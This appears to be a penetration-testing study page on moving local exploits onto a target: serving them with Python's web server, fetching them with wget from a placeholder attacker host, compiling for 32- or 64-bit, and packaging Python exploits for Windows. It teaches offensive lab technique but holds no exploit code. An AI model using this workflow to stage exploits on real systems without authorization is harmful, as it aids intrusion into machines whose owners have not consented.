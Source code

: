 # Working with exploits

This section is mostly about local exploits, because they're annoying. Remote python exploits are usually point-and-shoot and web exploits have their own section.

## Serving exploits

The quickest way to transfer an exploit is to create a folder for your exploits and expose it with Python's webserver:

```text
python -m SimpleHTTPServer 80
```

The port defaults to 8000 but 80 and 443 are usually more accessible, and wget will use 80 by default. Make sure your port choice doesn't conflict with your shell and don't leave the server running once you've served the exploit.

To download files to a Linux victim machine:

```text
wget http://[attack machine]:[port]/exploit.c
```

Make sure you are in a writable directory,`/tmp/` is usually reliable.

## Compiling exploits

First, the usual warning about randomly downloading exploits from the internet: watch out for backdoors. [Exploit-DB](https://www.exploit-db.com/) is reliable.

Second, always read the exploit comments carefully:

* Compiler options to use
* Architecture of the victim machine \(32-bit or 64-bit\)
* Steps to complete on the victim machine
* Code modifications

Third, if you get error messages during compilation or runtime, google them. Usually this is because the binary was compiled on the attack machine and there are quirks in architecture that can be solved by modifying compile options.

### Basic technique

The compile command looks like this:

```text
gcc filename.c -o executablename
```

Before you can run it, you'll need to transfer it to the victim machine and give it the right permissions:

```text
chmod u+x executablename
```

To run the executable:

```text
./executablename
```

### 32-bit exploits

Sometimes the victim machine will be 32-bit and can't accept a 64-bit compiled binary. To determine the architecture of your target:

```text
uname -a
cat /proc/version
dpkg --print-architecture
arch
file /sbin/init
```

32-bit is usually represented by `i686` and 64-bit is usually represented by `x86_64`.

If a C compiler is missing or inaccessible on your victim machine, you can compile the exploits on your Kali machine but you need some extra libraries on Kali:

```text
apt-get install gcc-multilib
apt-get install g++-multilib
```

You will also need to add the `-m32` flag to your compile command.

### Python exploits

Python is readily available on Linux, but not on Windows. Interestingly, some popular Windows exploits, such as [MS11-080](https://www.exploit-db.com/exploits/18176/), are written in python \(why?\). To use these, you'll need to create a standalone executable from the python file. This is done by installing `PyWin32` on a Windows machine and then the `PyInstaller` module. 

Then create a Windows PE executable: 

```text
python pyinstaller.py --onefile ms11-080.py
```

